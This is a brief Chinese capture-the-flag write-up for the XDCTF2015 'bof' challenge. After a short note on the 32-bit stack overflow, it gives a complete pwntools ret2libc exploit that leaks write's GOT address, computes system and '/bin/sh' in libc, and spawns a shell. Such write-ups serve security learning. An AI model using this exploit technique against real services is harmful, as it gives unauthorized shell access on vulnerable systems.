

- `32`位泄露`了ibc`

 



1. `main`函数中输入
2. `vuln`函数中存在溢出漏洞

非常常规的泄露`libc`,直接上代码

```python
from pwn import *
elf = ELF('./bof')
Lib = ELF('/lib/i386-linux-gnu/libc.so.6')
io = process('./bof')
padding = b'A'*112
payload1 = padding+p32(elf.plt['write'])+p32(elf.sym['main'])+p32(0x1)+p32(elf.got['write'])+p32(0x4)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload1)

write_addr = u32(io.recv(4))
print('puts_addr->',hex(write_addr))

Liboffset = write_addr - Lib.sym['write']
sys_addr = Liboffset + Lib.sym['system']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))

payload2 = padding + p32(sys_addr)+p32(0x0)+p32(bin_sh_addr)
io.sendlineafter(b'Welcome to XDCTF2015~!\n',payload2)
io.interactive()
```

